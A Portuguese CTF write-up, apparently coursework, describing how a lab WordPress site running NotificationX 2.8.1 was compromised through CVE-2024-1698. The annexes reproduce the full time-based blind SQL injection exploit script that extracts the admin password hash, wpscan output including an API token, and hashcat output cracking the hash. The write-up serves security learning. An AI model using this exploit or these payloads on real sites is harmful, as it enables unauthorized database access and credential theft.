








# 

Este CTF foi realizado no servidor web [http://44.242.216.18:5008](http://44.242.216.18:5008).

Em primeiro lugar, exploramos o site, de forma a encontrar as versões dos softwares que estavam a ser usados no mesmo. Ao inspecionar, descobrimos a versão do Wordpress:


Porém, não encontramos nenhum CVE que nos indicasse uma vulnerabilidade de SQL injection nesta versão do software.

Ao abrir o site, reparámos que recebemos uma notificação:



A notificação era providenciada pelo serviço “NotificationX”. Fomos, então, tentar descobrir a versão usada deste software para pesquisar por vulnerabilidades, e encontrámos também dentro da tag “\<head\>” do HTML do site:



Chegamos à conclusão que a versão do “NotificationX” que estava a ser usada era a 2.8.1 (já que foi a mesma foi passada como argumento na API).

Pesquisámos, então, por um CVE que descrevesse uma vulnerabilidade adequada para este contexto:



Logo no primeiro resultado deparámo-nos com um CVE que descrevia uma vulnerabilidade de SQL injection para uma versão \<=2.8.2 do “NotificationX”, ou seja, a versão usada no software do site tinha ainda esta vulnerabilidade presente.

Como desta vez não tínhamos como verificar se esta era a vulnerabilidade correta, decidimos usar uma ferramenta para analisar o site chamada wpscan, que acabou por só conseguir detetar o mesmo CVE que nós e deu-nos uma maior confiança que este era o CVE correto.



**(Relatório completo no final em anexos)**

De forma a explorar esta vulnerabilidade, pesquisámos por um PoC (Prove of concept) da mesma, chegando a este repositório GitHub:



( [https://github.com/kamranhasan/CVE-2024-1698-Exploit](https://github.com/kamranhasan/CVE-2024-1698-Exploit) )

Neste repositório, está presente um script de Python (exploit.py) que realiza o exploit usando **Blind** (já que o atacante não vê as respostas da base de dados às queries maliciosas) **Time-Based** (já que usamos “delay”, sob a forma da função “SLEEP()”) **SQL Injection**. Após instalar as dependências necessárias, era apenas preciso trocar o valor das variáveis “delay” (esta variável é responsável por espaçar temporalmente os requests feitos à API de “NotificationX” usada no site) e “url”, que deve coincidir com o **endpoint vulnerável do site, que é** [http://44.242.216.18:5008/wp-json/notificationx/v1/analytics](http://44.242.216.18:5008/wp-json/notificationx/v1/analytics).

Quando clicámos na notificação mencionada acima, fomos redirecionados para esta página:



A partir do conteúdo da mesma, conseguíamos saber que o username do administrador era “admin” (já que o post foi postado por ele), e que a sua “hashed password” começava com “$P$B”, como referido no comentário do “concerned-hacker”.

Com estas informações em mente, já conseguíamos ter uma ideia da eficácia do programa do exploit, já que as credenciais retornadas por este tinham que ser coerentes com os dados que tínhamos descoberto.

Após observar mais aprofundadamente o código Python, decidimos comentar grande parte do mesmo, uma vez que servia para se ter o tamanho do nome do admin e o nome do admin não era necessário para nós, já que já tínhamos conhecimento dele.

**(Código completo no final em anexos)**

Substituimos então no url onde dizia localhost pelo endpoint vulnerável, como referido: [http://44.242.216.18:5008/wp-json/notificationx/v1/analytics](http://44.242.216.18:5008/wp-json/notificationx/v1/analytics)



E, após muitas tentativas falhadas em obter resultados coerentes, tentámos com muitos “delays” diferentes, mas o único que funcionou foi o delay a 100\. Muito tempo depois, obtivemos a hash da password:



Agora, só precisávamos de dar “de-hashing” à password para descobri-la de facto. 

Usamos a lista de palavras-passe comuns “rockyou.txt” (na notificação aparecia uma referência à música dos Queen “We Will Rock You” que era uma pista para indicar que devíamos usar a “rockyou.txt”).

Sabemos que o tipo de hash é “PHPass” por causa do início da hash que é “$P$”, que corresponde ao modo 400 no hashcat, então acrescentamos a flag “-m 400” .

Para descobrir a palavra-passe original, usamos o software “Hashcat”, de onde conseguimos ter o resultado que queríamos:


**(resultado do hashcat no final em anexos)**

Descobrimos, desta forma, que a palavra-passe do admin era “heartbroken”. Logo, a flag é flag{heartbroken}, concluindo, assim, este CTF.

**Nota:** Observámos que, por muito que uma palavra-passe seja armazenada ao fazer hash e guardar o resultado, se a palavra passe não for forte (se for comum, se demasiado curta, não usar caracteres variados, repetição dentro da palavra passe (escrever a mesma coisa várias vezes por exemplo),...) pode correr o risco de um ataque “brute force” em que o atacante cria as hashes para uma lista de palavras-passe comuns e compara com a hash do servidor e se alguma corresponder já consegue saber a palavra passe original. Tal como fizemos nós para realizar este CTF.

## Anexos:

### Resultado de wpscan

rodri@DESKTOP-2VSGICH:\~/fsi/sqlmap-dev$ wpscan \--url http://44.242.216.18:5008/ \--enumerate vp \--api-token BPNtZfx8ERfWrWB1I97N33kU0gm0IkSBRYLSfLu2Vu0  
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_  
     	\_\_      	\_\_\_\_\_\_\_   \_\_\_\_\_  
     	\\ \\    	/ /  \_\_ \\ / \_\_\_\_|  
      	\\ \\  /\\  / /| |\_\_) | (\_\_\_   \_\_\_  \_\_ \_ \_ \_\_ ®  
       	\\ \\/  \\/ / |  \_\_\_/ \\\_\_\_ \\ / \_\_|/ \_\` | '\_ \\  
        	\\  /\\  /  | | 	\_\_\_\_) | (\_\_| (\_| | | | |  
         	\\/  \\/   |\_|	|\_\_\_\_\_/ \\\_\_\_|\\\_\_,\_|\_| |\_|

     	WordPress Security Scanner by the WPScan Team  
                     	Version 3.8.27  
   	Sponsored by Automattic \- https://automattic.com/  
   	@\_WPScan\_, @ethicalhack3r, @erwan\_lr, @firefart  
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

\[+\] URL: http://44.242.216.18:5008/ \[44.242.216.18\]  
\[+\] Started: Tue Dec  3 00:05:43 2024

Interesting Finding(s):

\[+\] Headers  
 | Interesting Entries:  
 |  \- Server: Apache/2.4.56 (Debian)  
 |  \- X-Powered-By: PHP/8.0.28  
 | Found By: Headers (Passive Detection)  
 | Confidence: 100%

\[+\] robots.txt found: http://44.242.216.18:5008/robots.txt  
 | Interesting Entries:  
 |  \- /wp-admin/  
 |  \- /wp-admin/admin-ajax.php  
 | Found By: Robots Txt (Aggressive Detection)  
 | Confidence: 100%

\[+\] XML-RPC seems to be enabled: http://44.242.216.18:5008/xmlrpc.php  
 | Found By: Headers (Passive Detection)  
 | Confidence: 100%  
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence  
 | References:  
 |  \- http://codex.wordpress.org/XML-RPC\_Pingback\_API  
 |  \- https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress\_ghost\_scanner/  
 |  \- https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress\_xmlrpc\_dos/  
 |  \- https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress\_xmlrpc\_login/  
 |  \- https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress\_pingback\_access/

\[+\] WordPress readme found: http://44.242.216.18:5008/readme.html  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 100%

\[+\] The external WP-Cron seems to be enabled: http://44.242.216.18:5008/wp-cron.php  
 | Found By: Direct Access (Aggressive Detection)  
 | Confidence: 60%  
 | References:  
 |  \- https://www.iplocation.net/defend-wordpress-from-ddos  
 |  \- https://github.com/wpscanteam/wpscan/issues/1299

\[+\] WordPress version 6.7.1 identified (Latest, released on 2024-11-21).  
 | Found By: Rss Generator (Passive Detection)  
 |  \- http://44.242.216.18:5008/feed/, \<generator\>https://wordpress.org/?v=6.7.1\</generator\>  
 |  \- http://44.242.216.18:5008/comments/feed/, \<generator\>https://wordpress.org/?v=6.7.1\</generator\>  
 |  \- http://44.242.216.18:5008/sample-page/feed/, \<generator\>https://wordpress.org/?v=6.7.1\</generator\>

\[+\] WordPress theme in use: twentytwentythree  
 | Location: http://44.242.216.18:5008/wp-content/themes/twentytwentythree/  
 | Last Updated: 2024-11-13T00:00:00.000Z  
 | Readme: http://44.242.216.18:5008/wp-content/themes/twentytwentythree/readme.txt  
 | \[\!\] The version is out of date, the latest version is 1.6  
 | Style URL: http://44.242.216.18:5008/wp-content/themes/twentytwentythree/style.css  
 | Style Name: Twenty Twenty-Three  
 | Style URI: https://wordpress.org/themes/twentytwentythree  
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....  
 | Author: the WordPress team  
 | Author URI: https://wordpress.org  
 |  
 | Found By: Urls In Homepage (Passive Detection)  
 | Confirmed By: Urls In 404 Page (Passive Detection)  
 |  
 | Version: 1.1 (80% confidence)  
 | Found By: Style (Passive Detection)  
 |  \- http://44.242.216.18:5008/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.1'

\[+\] Enumerating Vulnerable Plugins (via Passive Methods)  
\[+\] Checking Plugin Versions (via Passive and Aggressive Methods)

\[i\] Plugin(s) Identified:

\[+\] notificationx  
 | Location: http://44.242.216.18:5008/wp-content/plugins/notificationx/  
 | Last Updated: 2024-11-14T13:20:00.000Z  
 | \[\!\] The version is out of date, the latest version is 2.9.3  
 |  
 | Found By: Urls In Homepage (Passive Detection)  
 | Confirmed By: Urls In 404 Page (Passive Detection)  
 |  
 | \[\!\] 1 vulnerability identified:  
 |  
 | \[\!\] Title: NotificationX – Best FOMO, Social Proof, WooCommerce Sales Popup & Notification Bar Plugin With Elementor \< 2.8.3 \- Unauthenticated SQL Injection  
 | 	Fixed in: 2.8.3  
 | 	References:  
 |  	\- https://wpscan.com/vulnerability/3a66cb18-dfba-4b6b-bde0-d0efe2853326  
 |  	\- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1698  
 |  	\- https://www.wordfence.com/threat-intel/vulnerabilities/id/e110ea99-e2fa-4558-bcf3-942a35af0b91  
 |  
 | Version: 2.8.1 (100% confidence)  
 | Found By: Readme \- Stable Tag (Aggressive Detection)  
 |  \- http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt  
 | Confirmed By: Readme \- ChangeLog Section (Aggressive Detection)  
 |  \- http://44.242.216.18:5008/wp-content/plugins/notificationx/README.txt

\[+\] WPScan DB API OK  
 | Plan: free  
 | Requests Done (during the scan): 3  
 | Requests Remaining: 22

\[+\] Finished: Tue Dec  3 00:05:47 2024  
\[+\] Requests Done: 7  
\[+\] Cached Requests: 40  
\[+\] Data Sent: 1.857 KB  
\[+\] Data Received: 49.712 KB  
\[+\] Memory used: 251.242 MB  
\[+\] Elapsed time: 00:00:04  
rodri@DESKTOP-2VSGICH:\~/fsi/sqlmap-dev$

### Código usado para realizar o exploit

```

`import requests`  
`import string`  
`from sys import exit`

`# Sleep time for SQL payloads`  
`delay = 100`

`# URL for the NotificationX Analytics API`  
`url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"`

`# admin_username = ""`  
`admin_password_hash = ""`

`session = requests.Session()`

`# # Find admin username length`  
`# username_length = 0`  
`# for length in range(1, 41):  # Assuming username length is less than 40 characters`  
`#     resp_length = session.post(url, data={`  
`#         "nx_id": 1337,`  
``#         "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"``  
`#     })`

`#     # Elapsed time > delay if delay happened due to SQLi`  
`#     if resp_length.elapsed.total_seconds() > delay:`  
`#         username_length = length`  
`#         print("Admin username length:", username_length)`  
`#         break`

`# # Find admin username`  
`# for idx_username in range(1, username_length + 1):`  
`#     # Iterate over all the printable characters + NULL byte`  
`#     for ascii_val_username in (b"\x00" + string.printable.encode()):`  
`#         # Send the payload`  
`#         resp_username = session.post(url, data={`  
`#             "nx_id": 1337,`  
``#             "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"``  
`#         })`

`#         # Elapsed time > delay if delay happened due to SQLi`  
`#         if resp_username.elapsed.total_seconds() > delay:`  
`#             admin_username += chr(ascii_val_username)`  
`#             # Show what we have found so far...`  
`#             print("Admin username:", admin_username)`  
`#             break  # Move to the next character`  
`#     else:`  
`#         # Null byte reached, break the outer loop`  
`#         break`

`# Find admin password hash`  
`for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters`  
    `# Iterate over all the printable characters + NULL byte`  
    `for ascii_val_password in (b"\x00" + string.printable.encode()):`  
        `# Send the payload`  
        `resp_password = session.post(url, data={`  
            `"nx_id": 1337,`  
            ``"type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"``  
        `})`

        `# Elapsed time > delay if delay happened due to SQLi`  
        `if resp_password.elapsed.total_seconds() > delay:`  
            `admin_password_hash += chr(ascii_val_password)`  
            `# Show what we have found so far...`  
            `print("Admin password hash:", admin_password_hash)`  
            `# Exit condition - encountered a null byte`  
            `if ascii_val_password == 0:`  
                `print("[*] Admin credentials found:")`  
                `# print("Username:", admin_username)`  
                `print("Password hash:", admin_password_hash)`  
                `exit(0)`

```

### Resultado do hashcat completo

```

PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\> hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
hashcat.exe : The term 'hashcat.exe' is not recognized as the name of a cmdlet, function, script file, or operable  
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.  
At line:1 char:1  
\+ hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
\+ \~\~\~\~\~\~\~\~\~\~\~  
	\+ CategoryInfo      	: ObjectNotFound: (hashcat.exe:String) \[\], CommandNotFoundException  
	\+ FullyQualifiedErrorId : CommandNotFoundException

Suggestion \[3,General\]: The command hashcat.exe was not found, but does exist in the current location. Windows PowerShell does not load commands from the current location by default. If you trust this command, instead type: ".\\hashcat.exe". See "get-help about\_Command\_Precedence" for more details.  
PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\> /hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
/hashcat.exe : The term '/hashcat.exe' is not recognized as the name of a cmdlet, function, script file, or operable  
program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.  
At line:1 char:1  
\+ /hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
\+ \~\~\~\~\~\~\~\~\~\~\~\~  
	\+ CategoryInfo      	: ObjectNotFound: (/hashcat.exe:String) \[\], CommandNotFoundException  
	\+ FullyQualifiedErrorId : CommandNotFoundException

Suggestion \[3,General\]: The command /hashcat.exe was not found, but does exist in the current location. Windows PowerShell does not load commands from the current location by default. If you trust this command, instead type: ".\\/hashcat.exe". See "get-help about\_Command\_Precedence" for more details.  
PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\> .\\hashcat.exe \-m 400 \-a 0 hash.txt rockyou.txt  
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

\* Device \#1: CUDA SDK Toolkit not installed or incorrectly installed.  
         	CUDA SDK Toolkit required for proper device support and utilization.  
         	Falling back to OpenCL runtime.

\* Device \#1: WARNING\! Kernel exec timeout is not disabled.  
         	This may cause "CL\_OUT\_OF\_RESOURCES" or related errors.  
         	To disable the timeout, see: https://hashcat.net/q/timeoutpatch  
nvmlDeviceGetFanSpeed(): Not Supported

OpenCL API (OpenCL 3.0 CUDA 12.7.33) \- Platform \#1 \[NVIDIA Corporation\]  
\=======================================================================  
\* Device \#1: NVIDIA GeForce RTX 2060, 6016/6143 MB (1535 MB allocatable), 30MCU

OpenCL API (OpenCL 3.0 ) \- Platform \#2 \[Intel(R) Corporation\]  
\=============================================================  
\* Device \#2: Intel(R) UHD Graphics 630, 3200/6488 MB (1622 MB allocatable), 24MCU

Minimum password length supported by kernel: 0  
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts  
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates  
Rules: 1

Optimizers applied:  
\* Zero-Byte  
\* Single-Hash  
\* Single-Salt

ATTENTION\! Pure (unoptimized) backend kernels selected.  
Pure kernels can crack longer passwords, but drastically reduce performance.  
If you want to switch to optimized kernels, append \-O to your commandline.  
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2377 MB

Dictionary cache built:  
\* Filename..: rockyou.txt  
\* Passwords.: 14344391  
\* Bytes.....: 139921497  
\* Keyspace..: 14344384  
\* Runtime...: 1 sec

$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10:heartbroken

Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 400 (phpass)  
Hash.Target......: $P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10  
Time.Started.....: Fri Dec 06 21:50:00 2024 (2 secs)  
Time.Estimated...: Fri Dec 06 21:50:02 2024 (0 secs)  
Kernel.Feature...: Pure Kernel  
Guess.Base.......: File (rockyou.txt)  
Guess.Queue......: 1/1 (100.00%)  
Speed.\#1.........:  1405.9 kH/s (5.27ms) @ Accel:1024 Loops:64 Thr:32 Vec:1  
Speed.\#2.........:	28336 H/s (6.05ms) @ Accel:64 Loops:32 Thr:32 Vec:1  
Speed.\#\*.........:  1434.2 kH/s  
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)  
Progress.........: 1032192/14344384 (7.20%)  
Rejected.........: 0/1032192 (0.00%)  
Restore.Point....: 0/14344384 (0.00%)  
Restore.Sub.\#1...: Salt:0 Amplifier:0-1 Iteration:7552-7616  
Restore.Sub.\#2...: Salt:0 Amplifier:0-1 Iteration:8160-8192  
Candidate.Engine.: Device Generator  
Candidates.\#1....: alexlaura \-\> azulceu  
Candidates.\#2....: 123456 \-\> truckin  
Hardware.Mon.\#1..: Temp: 64c Util: 71% Core:1575MHz Mem:6801MHz Bus:16  
Hardware.Mon.\#2..: N/A

Started: Fri Dec 06 21:49:20 2024  
Stopped: Fri Dec 06 21:50:03 2024  
PS C:\\Users\\rodri\\Downloads\\hashcat-6.2.6\\hashcat-6.2.6\>

```
